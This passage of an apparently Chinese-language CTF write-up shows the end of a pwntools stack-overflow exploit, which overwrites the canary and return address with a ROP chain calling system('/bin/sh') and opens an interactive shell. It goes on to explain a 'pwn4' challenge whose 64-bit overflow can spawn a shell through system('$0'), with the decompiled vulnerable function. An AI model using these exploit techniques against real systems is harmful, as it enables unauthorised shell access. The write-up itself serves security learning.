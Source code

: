 ```
p.recvuntil('note:\n')
p.send('a'*0x258 + p64(canary) + p64(ebp) + p64(pop_ret) + p64(binsh_addr) + p64(system_addr) )
#gdb.attach(p)
p.recvuntil('s 624)\n')
payload = 'a'
p.send(payload)

p.interactive()
```

### pwn4

栈溢出非常少，这道题学到了栈溢出getshell还可以`system('$0')`可以getshell

<img src="/images/posts/2019-06/1560925405474.png" >

关于getshell的一些参考：

+ https://note.t4x.org/system/shell-special-variables/
+ https://blog.csdn.net/cws1214/article/details/21959529

```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char s; // [rsp+0h] [rbp-10h]

  memset(&s, 0, 0x10uLL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("Come on,try to pwn me");
  read(0, &s, 0x30uLL);
  puts("So~sad,you are fail");
  return 0LL;
}
```

直接找`$0`
